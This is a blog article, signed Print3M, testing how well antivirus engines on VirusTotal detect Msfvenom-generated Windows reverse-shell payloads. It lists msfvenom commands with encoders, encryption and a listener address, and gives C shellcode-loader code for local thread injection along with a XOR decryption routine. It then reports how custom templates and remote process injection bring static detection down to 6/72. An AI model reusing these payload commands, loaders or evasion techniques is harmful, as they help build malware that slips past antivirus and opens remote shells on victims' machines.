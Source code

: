 ```yaml
---
title: Msfvenom detection rate in 2024
createdAt: 09/06/2024
---
```


In this article, I would like to do a little research on how well payload generated by Msfvenom is detected. Of course, we are mainly talking about static malware detection. Many people believe that payloads generated by Msfvenom are nowadays unusable in general. The issue is not so simple.

> All compiled / generated files were checked using VirusTotal. This is where the level of detection comes from.

A brief overview of the Msfvenom parameters which can affect the detection:

- `-p <payload>` - shellcode (this thing that gives us a reverse shell);
- `-e <encoding>` - encoding of the shellcode; `--iterations` - how many times the shellcode should be encoded;
- `--encrypt <alg>` - encryption of the shellcode; `--encrypt-key` - encryption key;
- `f <format>` - output format. There are essentially two possibilities: file format (executable) or payload format (a string ready to use in your own malware code).

## Default executables

Let's see how well the default executable formats generated by Msfvenom are detected.

### EXE

Pure:

```bash
# Detection: 58/73
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o file.exe
```

Encoding:

```bash
# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai -f exe -o file.exe

# Detection: 55/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor -f exe -o file.exe

# Detection: 53/73
msfvenom -p windows/x64/shell_reverse_tcp -e x64/zutto_dekiru -f exe -o file.exe
```

Encryption:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt aes256 --encrypt-key print3m -f exe -o file.exe

# Detection: 53/73 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor --encrypt rc4 --encrypt-key print3m -f exe -o file.exe

# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt xor --encrypt-key print3m -f exe -o file.exe
```

Everything together:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f exe -o file.exe
```

**Conclusion**: Encryption and encoding actually don't matter while using `-f exe`. Not only the payload but the execution itself (template) is very well detected. The default execution is always the same, it's the easiest part to detect being an antivirus software. By the way, this is not true only for `exe` files. Below I have presented other formats (also with default templates) with similar results. The conclusion is simple: **never use ready-made executable formats and default templates**.

### DLL

```bash
# Detection: 41/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f dll -o file.dll
```

### VBS

```bash
# Detection: 35/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f vbs -o file.vbs
```

### MSI

```bash
# Detection: 40/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f msi -o file.msi
```

### HTA

```bash
# Detection: 33/61
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f hta-psh -o file.hta
```

### CMD

```bash
# Detection: 16/64 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 2 --smallest --encrypt rc4 --encrypt-key print3m -f psh-cmd -o file.cmd
```

## Custom executable

Using a custom code, we control how the shellcode is executed, which is the most sensitive point of the finished files generated by Msfvenom. We still use the shellcode generated by Msfvenom and look at how well the compiled file is detected.

The simplest local thread injection:

```c
#include <Windows.h>
#include <stdio.h>
#include <stdint.h>

uint8_t shellcode[] = "PAYLOAD:";

int main() {
    // Allocate memory
    void* mem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (mem == NULL) {
        printf("[!] VirtualAlloc error: %d \n", GetLastError());
        return -1;
    }

    // Copy the shellcode to the allocated memory
    memcpy(mem, shellcode, sizeof(shellcode));

    // Set original shellcode to 0
    memset(shellcode, 0x00, sizeof(shellcode));

    // Change allocated memory permissions
    DWORD old_protect = NULL;
    if (!VirtualProtect(mem, sizeof(shellcode), PAGE_EXECUTE, &old_protect)) {
        printf("[!] VirtualProtect error: %d \n", GetLastError());
        return -1;
    }

    // Create a thread
    HANDLE thread = CreateThread(NULL, NULL, mem, NULL, NULL, NULL);
    if (thread == NULL) {
        printf("[!] CreateThread error: %d \n", GetLastError());
        return -1;
    }

    WaitForSingleObject(thread, INFINITE);

    // Exit
    getchar();
    return 0;
}
```

No anti-AV measures, just a custom template. Immediately, we see a huge decrease in detection by 24 antiviruses. For the exact same shellcode (without any encryption or encoding) in the default template the detection was 58/73. And we didn't even try very hard to hide anything.

```bash
# Detection: 34/72
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.53 LPORT=8888 -f c 
```

With simple XOR encryption in the template itself. Shellcode is decrypted by C code before injection and execution.

```c
uint8_t shellcode[] = "PAYLOAD:";
uint8_t xor_key[] = {'p', 'r', 'i', 'n', 't', '3', 'm'};

// XOR encryption / decryption
void xor(uint8_t shellcode[], size_t shellcode_sz, uint8_t key[], size_t key_sz) {
    for (size_t i = 0; i < shellcode_sz; i++) {
        // Get byte of key
        uint8_t byte_key = key[i % key_sz]; 

        // Calculate value
        shellcode[i] = shellcode[i] ^ byte_key;
    }
}
```

XOR encryption is built-in into Msfvenom. As we can see with a simple xor the detection is even lower.

```bash
# Detection: 27/72
msfvenom --encrypt xor --encrypt-key print3m -p windows/x64/shell_reverse_tcp  LHOST=192.168.1.53 LPORT=8888 -f c
```

When uploading this malware to Virus Total, some antiviruses write out that they supposedly found a meterpreter payload, but this is not true. Detection rate is still pretty high because our shellcode injection technique is very simple, it doesn't use any advanced techniques, and it's known to many antiviruses. As you can see, for most of them it's still undetectable but e.g. GData, Kaspersky or Windows Defender easily detects the local thread injection technique.

However, it is enough to use a slightly more complicated shellcode injection technique and the **static detection level drops to 6/72**. I used a simple remote process shellcode injection technique ([example source code](https://github.com/Print3M/malware-dev/blob/main/shellcode_process_injection.c)) and  the result is very satisfactory.

## Conclusion

Msfvenom's generated malware files are detected without the slightest difficulty by any serious antivirus software. Encryption, encoding and different file formats generally do not help at all. However, using shellcode generated by Msfvenom in your own code (custom template) is still possible. Using a simple XOR, we are able to hide Msfvenom shellcode and the level of detection then depends mostly on how the payload is executed.

~ Print3M
